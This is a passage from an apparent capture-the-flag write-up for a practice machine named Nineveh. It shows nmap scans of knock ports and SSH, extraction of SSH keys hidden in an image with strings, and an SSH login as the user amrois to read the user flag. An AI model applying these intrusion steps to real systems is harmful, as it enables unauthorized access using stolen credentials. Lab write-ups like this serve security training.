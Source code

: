 - So we can use nmap for this from our local machine.
```bash
sudo nmap -Pn -p 571,290,911 -sT --max-retries 0 10.10.10.43
[sudo] password for norman: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 04:23 EDT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.

PORT    STATE    SERVICE
290/tcp filtered unknown
571/tcp filtered umeter
911/tcp filtered xact-backup

Nmap done: 1 IP address (1 host up) scanned in 1.10 seconds

```
- We can run nmap again against ssh and see it is open
```bash
sudo nmap -Pn -p 22 --max-retries 0 10.10.10.43             
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 04:24 EDT
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up (0.18s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds

```
- We also had an image in secure_notes directory under the https://10.10.10.43.
- It was an image. We can run strings on the image to find private and public ssh keys for amrois present.
- We can login as amrois using the private key
```bash
ssh -i nineveh amrois@10.10.10.43                                                                                 
                                          130 ↵                                                                       
The authenticity of host '10.10.10.43 (10.10.10.43)' can't be established.                                            
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.                                          
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                              
Warning: Permanently added '10.10.10.43' (ECDSA) to the list of known hosts.
Ubuntu 16.04.2 LTS                                         
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$ ls
```
- Cat out the user.txt
